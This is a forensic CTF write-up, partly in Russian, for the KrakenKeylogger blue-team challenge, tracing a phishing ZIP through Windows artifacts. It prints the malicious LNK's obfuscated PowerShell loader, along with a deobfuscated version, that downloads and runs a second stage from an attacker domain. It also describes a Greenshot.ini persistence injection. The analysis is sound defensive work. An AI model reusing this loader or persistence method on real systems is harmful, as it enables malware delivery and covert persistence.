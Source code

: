 ```yaml
---
link: https://cyberdefenders.org/blueteam-ctf-challenges/krakenkeylogger/
tags:
  - LECmd
  - Timeline
  - DBBrowser
---
```

---
## Scenario
>An employee at a large company was assigned a task with a two-day deadline. Realizing that he could not complete the task in that timeframe, he sought help from someone else. After one day, he received a notification from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test. However, the person also sent a message to the employee stating that if he wanted the completed assignment, he would have to pay $160.  
>The helper's demand for payment revealed that he was actually a threat actor. The company's digital forensics team was called in to investigate and identify the attacker, determine the extent of the attack, and assess potential data breaches. The team must analyze the employee's computer and communication logs to prevent similar attacks in the future.

---
# How to solve?
---
## Q1. What is the the web messaging app the employee used to talk to the attacker?

Исходя из сценария:
>After one day, he received a **notification** from that person who informed him that he had managed to finish the assignment and sent it to the employee as a test.

Было решено проверить виндовые уведомления, которые находятся по пути:
`C:\Users\OMEN\AppData\Local\Microsoft\Windows\Notifications\wpndatabase.db`
Открыв с помощью `DB Browser for SQLite` и просмотрев таблицу `Notification` можно обнаружить уведомление из мессенджера **Телеграм**:

![telegram](./telegram.png)

> Answer: **telegram**

## Q2. What is the password for the protected ZIP file sent by the attacker to the employee?

В этом же уведомлении из скрина выше находится пароль к архиву
> Answer: @1122d

## Q3. What domain did the attacker use to download the second stage of the malware?

Вот тут пришлось уже покопаться. Решил проверить содержимое архива, который конечно же находится в директории загрузок пользователя **OMEN**.
Архив содержит DOCX документ, и подозрительный LNK-файл ярлык с именем **templet.lnk**.

Анализ файла на VirusTotal подтвердил его вредоносность:
![virustotal](./virustotal.png)

Воспользовавшись утилитой **LECmd.exe**:
```bash
LECmd.exe -f '.\templet.lnk' --csv result;                  
```
Далее открыв файл в TimelineExplorer, можно обнаружить, что данный файл запускает процесс **powershell.exe** с обфусцированными параметрами:

Запуск **Powershell.exe**
```bash
..\..\..\..\..\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
```

Параметры:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function nvRClWiAJT($OnUPXhNfGyEh){$OnUPXhNfGyEh[$OnUPXhNfGyEh.Length..0] -join('')};
function sDjLksFILdkrdR($OnUPXhNfGyEh){
$vecsWHuXBHu = nvRClWiAJT $OnUPXhNfGyEh;
for($TJuYrHOorcZu = 0;$TJuYrHOorcZu -lt $vecsWHuXBHu.Length;$TJuYrHOorcZu += 2){
try{$zRavFAQNJqOVxb += nvRClWiAJT $vecsWHuXBHu.Substring($TJuYrHOorcZu,2)}
catch{$zRavFAQNJqOVxb += $vecsWHuXBHu.Substring($TJuYrHOorcZu,1)}};$zRavFAQNJqOVxb};
$NpzibtULgyi = sDjLksFILdkrdR 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$cDkdhkGBtl = $env:APPDATA + '\' + ($NpzibtULgyi -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$wbpiCTsGYi = wget $NpzibtULgyi -UseBasicParsing;
[IO.File]::WriteAllText($cDkdhkGBtl, $wbpiCTsGYi);
& $cDkdhkGBtl;
sleep 3;
rm $cDkdhkGBtl;
```

Моя попытка деобфускации кода:
```powershell
-ExecutionPolicy UnRestricted $ProgressPreference = 0;
function reverseCharArray($charArray){
  $charArray[$charArray.Length..0] -join('')
}; 
function processString($charArray ){
  $reversedCharArray = reverseCharArray $charArray;
  for($i = 0; $i -lt $reversedCharArray.Length; $i += 2) {
    try {
      $resultString += reverseCharArray $reversedCharArray.Substring($i,2)
    }
    catch {
      $resultString += $reversedCharArray.Substring($i,1)
      }
    };
  $resultString
};

$resultURL = processString 'aht1.sen/hi/coucys.erstmaofershma//s:tpht';
$filePath = $env:APPDATA + '\' + ($resultURL -split '/')[-1];
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$maliciousCode = wget $resultURL -UseBasicParsing;
[IO.File]::WriteAllText($filePath, $maliciousCode);
& $filePath;
sleep 3;
rm $filePath;
```
*Первая функция* переворачивает массив символов и возвращает его как строку.
*Вторая функция* переворачивает входной массив, затем обрабатывает его по два символа за раз, пытаясь перевернуть каждую пару и добавлять к результату; если остается один символ, добавляет его без изменения.

Проделав функции на данной строке мы получим домен `masherofmasters[.]cyou`
> Answer: masherofmasters.cyou

## Q4. What is the name of the command that the attacker injected using one of the installed LOLAPPS on the machine to achieve persistence?

Загуглив что токое LOLAPPS, мы обнаружим сайт https://lolapps-project.github.io/ который содержит легитимные утилиты, которые могут использоваться в нелегитимных целях. 

В директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружим данные установленных приложений. Среди них: **Adobe, AnyDesk, Greenshot, Microsoft**.

Согласно ресурсу LOLAPPS, приложение Greenshot как раз может использоваться для закрепления на хосте:
> Any Greenshot plugin can contain persistence, the simplest being the "External command plugin" which uses command line; Modify the `Greenshot.ini` file in *"%AppData%\Greenshot\"*, add an `ExternalCommand` configuration, add a new name to the "Commands" parameter, add the payload in the `Commandline.<name>` and `Argument.<name>`, add the name to the "Destinations" parameter. 

Директория Greenshot как раз содержит конфиг файл `Greenshot.ini`. Проанализировав его содержимое, можно обнаружить вышеописанный метод закрепления:
```ini
; The commandline for the output command.
Commandline.MS Paint=C:\Windows\System32\mspaint.exe
Commandline.jlhgfjhdflghjhuhuh=C:\Windows\system32\cmd.exe

; The arguments for the output command.
Argument.MS Paint="{0}"
Argument.jlhgfjhdflghjhuhuh=/c "C:\Users\OMEN\AppData\Local\Temp\templet.lnk"
```

> Answer: jlhgfjhdflghjhuhuh


## Q5. What is the complete path of the malicious file that the attacker used to achieve persistence

Тут необходимо указать полный путь до вредоносного файла из конфиг файла.

> Answer: C:\Users\OMEN\AppData\Local\Temp\templet.lnk

## Q6. What is the name of the application the attacker utilized for data exfiltration?

Ранее в директории `C:\Users\OMEN\AppData\Roaming\` мы обнаружили данные установленных приложений. Среди них оказался **AnyDesk**. 

> Answer: AnyDesk

## Q7. What is the IP address of the attacker?
Рассмотрим содержимое директории **AnyDesk**, а именно файл `C:Users\OMEN\AppData\Roaming\AnyDesk\ad.trace`.

> Журнал **ad.trace** содержит отладочную информацию, что позволяет определить **IP-адрес**, с которого производилось подключение
- 
Открыв его с помощью текстового редактора, можно увидеть логи ПО AnyDesk.

Поискав по словосочетанию `Connection established`, можно обнаружить следующую информацию:
```log
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Connection established.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   27           anynet.relay_connector - Relay connector stopped.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380                       fiber.scheduler - Fiber 27 'relay_connector' (parent: 25) terminated.
   info 2023-07-12 08:56:17.144       lsvc   6572   5380   25                anynet.relay_conn - External address: 77.232.122.31:34791.
```

> Answer: 77.232.122.31